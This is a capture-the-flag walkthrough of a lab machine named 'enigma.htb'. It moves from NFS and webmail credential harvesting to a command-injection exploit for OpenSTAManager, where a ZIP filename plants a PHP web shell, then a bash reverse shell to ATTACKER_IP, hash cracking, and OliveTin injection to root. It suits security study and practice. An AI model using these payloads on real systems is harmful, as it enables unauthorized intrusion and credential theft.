






## Initial Enumeration

We begin by performing a full TCP port scan.

```bash
nmap -p- --min-rate 5000 <TARGET_IP>
```

The scan revealed several open ports, so a service version and default script scan was performed.

```bash
nmap -p22,80,110,111,143,993,995,2049,38709,39809,43887,51405,53617 -sV -sC <TARGET_IP>
```

Port **80** redirected to **enigma.htb**.

```bash
echo "<TARGET_IP> enigma.htb" | sudo tee -a /etc/hosts
```

## NFS Enumeration

Among the exposed services, port **2049** immediately stood out because it hosted a Network File System (NFS). NFS shares frequently contain internal documents, backups, or configuration files that can expose valuable information, making it a natural target for further enumeration.

We first listed the available exports on the server.

```bash
showmount -e <TARGET_IP>
```

The server exported the following share:

```text
/srv/nfs/onboarding
```

We mounted the share locally to inspect its contents.

```bash
sudo mount -t nfs <TARGET_IP>:/srv/nfs/onboarding /<MOUNT_DIRECTORY>
```

Browsing the mounted directory revealed a PDF named **New_Employee_Access.pdf**. The document contained onboarding information for new employees, including credentials and references to internal services.



---

## Webmail Enumeration

Using the credentials recovered from the onboarding document and adding the hostname to our `/etc/hosts` file, we successfully authenticated to the Roundcube webmail interface as **kevin**.



Reviewing Kevin's mailbox revealed several internal communications, including an email from **sarah@enigma.htb**. Since password reuse is a common weakness in enterprise environments, we attempted to authenticate to Sarah's mailbox using Kevin's password.

The authentication succeeded, confirming credential reuse. Sarah's inbox contained another valuable email with administrator credentials for an internal OpenSTAManager instance.



```text
URL: http://support_001.enigma.htb
Username: admin
Password: Ne3s4rtars78s
```

After adding the hostname to `/etc/hosts`, we successfully authenticated to the application.



---

## Initial Foothold – OpenSTAManager (CVE-2025-69212)

After logging into OpenSTAManager, we began exploring the application's functionality to identify potential attack surfaces.

While reviewing the **Settings → Backups** page, we discovered that the application disclosed its default upload directory:

```text
/var/www/html/openstamanager/files/
```

Knowing where uploaded files are stored is useful when investigating file upload or remote code execution vulnerabilities.

Continuing our enumeration led us to the **Importazione FE** plugin, which is vulnerable to **CVE-2025-69212**, an OS Command Injection vulnerability.

### Vulnerability Overview

The application extracts filenames from uploaded ZIP archives and passes them directly to a shell command without properly sanitizing user-controlled input.

Because shell metacharacters such as `;` are interpreted by the operating system, an attacker can inject arbitrary commands simply by crafting a malicious filename inside the ZIP archive. These commands execute with the privileges of the web server process.

Our objective was to leverage this vulnerability to write a PHP web shell into the application's upload directory, giving us a reliable method of executing arbitrary commands on the target.

Generate the malicious ZIP archive using the exploit script.

```python
import zipfile

cmd = "cd files && echo '<?php system($_GET[\"c\"]); ?>' > SHELL.php"
malicious_filename = f'invoice.p7m";{cmd};echo ".p7m'

with zipfile.ZipFile('exploit.zip', 'w') as zf:
    zf.writestr(malicious_filename, b"DUMMY_P7M_CONTENT")
```

From the application interface, navigate to:

```text
Sales → Sales Invoices → PLUG-IN → Importazione FE
```

Upload the malicious archive.

Once processed, the web shell becomes accessible at:

```text
http://support_001.enigma.htb/files/SHELL.php
```

Testing it with:

```text
http://support_001.enigma.htb/files/SHELL.php?c=whoami
```

confirmed successful code execution.

Start a Netcat listener:

```bash
nc -lvnp <PORT>
```

Then execute the following payload through the web shell to obtain a reverse shell.

```bash
bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1'
```

---

## User Access

With an interactive shell established, the next objective was to identify credentials that could be used to access additional services or users on the system.

Inspecting the application configuration file revealed the MySQL credentials used by OpenSTAManager.

```text
/var/www/html/openstamanager/config.inc.php
```

```php
$db_host = 'localhost';
$db_username = 'brollin';
$db_password = 'Fri3nds@9099';
$db_name = 'openstamanager';
```

Since application databases commonly store user accounts and password hashes, we connected to MySQL to enumerate its contents.

```bash
mysql -u brollin -p
```

After authenticating, we enumerated the available databases and tables.

```sql
SHOW DATABASES;
USE openstamanager;
SHOW TABLES;
SELECT * FROM zz_users;
```

The `zz_users` table contained a bcrypt password hash belonging to the user **haris** who also has a home directory on the system. We saved the hash locally and attempted an offline password cracking attack using John the Ripper.

```bash
john hash.txt --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt
```

The password was successfully recovered:

```text
haris : bestfriends
```

Using these credentials, we switched to the **haris** account and obtained the user flag.

```bash
su haris
cat /home/haris/user.txt
```

---

## Privilege Escalation – OliveTin (CVE-2026-27626)

Further local enumeration revealed an OliveTin service listening only on the loopback interface on port **1337** and running as root. Since the service was not directly accessible from our attacking machine, we needed to establish SSH port forwarding.

The system accepted public key authentication, so we first generated a new Ed25519 key pair.

```bash
ssh-keygen -t ed25519
```

We then transferred the public key to the target and appended it to Haris' `~/.ssh/authorized_keys` file. With key-based authentication configured, we established an SSH session while forwarding the OliveTin service.

```bash
ssh -i id_ed25519 -L 1337:127.0.0.1:1337 haris@enigma.htb
```

Browsing to:

```text
http://127.0.0.1:1337
```

presented the OliveTin web interface. The installed version (**3000.10.0**) is vulnerable to **CVE-2026-27626**, an OS Command Injection vulnerability.



### Vulnerability Overview

OliveTin is vulnerable to an OS Command Injection vulnerability affecting certain actions that accept arguments of type `password`. Because user input is not properly sanitized before being passed to a shell command, an attacker can inject shell metacharacters and execute arbitrary operating system commands.

On the Enigma machine, this vulnerability is exposed through the **Backup Database** action. The `db_pass` argument is passed to the underlying shell command without sufficient sanitization. By terminating the intended argument with a single quote (`'`) and appending an arbitrary command, while commenting out the remainder of the original command using `#`, we can execute commands as the user running the OliveTin service.

Since the configured backend action executes as **root**, successful exploitation results in arbitrary command execution with root privileges.



To read the root flag directly:

```text
'; cat /root/root.txt #
```

Alternatively, we can grant the Bash binary the SUID bit:

```text
'; chmod +s /bin/bash #
```

and then spawn a root shell through the ssh connection:

```bash
/bin/bash -p
```

At this point, the machine is fully compromised.

